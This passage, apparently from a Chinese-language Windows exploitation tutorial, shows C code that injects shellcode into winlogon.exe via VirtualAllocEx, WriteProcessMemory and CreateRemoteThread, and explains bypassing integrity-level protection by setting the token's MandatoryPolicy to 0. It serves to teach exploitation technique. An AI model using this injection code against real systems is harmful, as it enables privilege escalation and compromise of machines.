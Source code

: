 ```c
		DWORD pid = getProcessId(str);
		hEx = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
		if (hEx == NULL)
		{
			printf("Error opening winlogon process: %d\n", GetLastError());
		    // return FALSE;
		}
		else
		{
			break;
		}
	}
	
	pMem = VirtualAllocEx(hEx, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (pMem == NULL)
	{
		printf("Error allocating space in winlogon process: %d\n", GetLastError());
		return FALSE;
	}
	if (!WriteProcessMemory(hEx, pMem, shellcode, sizeof(shellcode), 0))
	{
		printf("Error writing shellcode: %d\n", GetLastError());
		return FALSE;
	}
	if (!CreateRemoteThread(hEx, NULL, 0, (LPTHREAD_START_ROUTINE)pMem, NULL, 0, NULL))
	{
		printf("Error starting thread: %d\n", GetLastError());
		return FALSE;
	}
	printf("Remote thread created\n");
	return TRUE;
}

int main() {
     injectCode();
	return 0;
}
```

由于普通用户进程是没有权限打开`winlogon`进程的，所以会一直打开失败而陷入死循环，然后我们在windbg中调整权限，让winlogon.exe可以被普通权限打开。

但是调整完成后，依然无法打开进程，这是因为winlogon.exe具有比较高的完整性界别，而我们的程序的完整性级别比较低，无法写完整性级别较高的进程。

[msdn文档](https://docs.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-token_mandatory_policy)。我们调整我们的漏洞利用程序的`MandatoryPolicy`为0即可。

| Value                                         | Meaning                                                      |
| :-------------------------------------------- | :----------------------------------------------------------- |
| **TOKEN_MANDATORY_POLICY_OFF**0x0             | No mandatory integrity policy is enforced for the token.     |
| **TOKEN_MANDATORY_POLICY_NO_WRITE_UP**0x1     | A process associated with the token cannot write to objects that have a greater mandatory integrity level. |
| **TOKEN_MANDATORY_POLICY_NEW_PROCESS_MIN**0x2 | A process created with the token has an integrity level that is the lesser of the parent-process integrity level and the executable-file integrity level. |
| **TOKEN_MANDATORY_POLICY_VALID_MASK**0x3      | A combination of **TOKEN_MANDATORY_POLICY_NO_WRITE_UP** and **TOKEN_MANDATORY_POLICY_NEW_PROCESS_MIN**. |
